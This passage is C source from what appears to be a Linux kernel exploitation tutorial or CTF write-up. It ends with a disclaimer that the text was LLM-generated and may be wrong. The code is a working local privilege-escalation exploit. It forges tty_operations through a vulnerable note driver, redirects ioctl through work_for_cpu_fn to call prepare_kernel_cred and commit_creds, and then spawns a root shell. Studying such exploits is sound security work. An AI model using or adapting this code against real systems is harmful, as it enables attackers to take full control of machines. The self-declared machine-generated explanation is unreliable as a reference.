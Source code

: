 ```c

    fake_tty_ops.ioctl = (void *)kernel_offset + WORK_FOR_CPU_FN;
    note_write(1, &fake_tty_ops);

    gift(notes);
    printf("[+] tty_struct = %p\n", notes[0].ptr);
    printf("[+] tty_operations = %p\n", notes[1].ptr);

    tty_buf[4] = kernel_offset + PREPARE_KERNEL_CRED;
    tty_buf[5] = 0;
    tty_buf[3] = (size_t)notes[1].ptr;
    note_write(0, tty_buf);

    ioctl(tty_fd, 1, 1);

    note_read(0, tty_buf);
    tty_buf[4] = kernel_offset + COMMIT_CREDS;
    tty_buf[5] = tty_buf[6];

    note_write(0, tty_buf);
    ioctl(tty_fd, 1, 1);

    note_write(0, orig_tty_buf);

    get_root_shell();
}
```

:::info
This Content is generated by LLM and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::



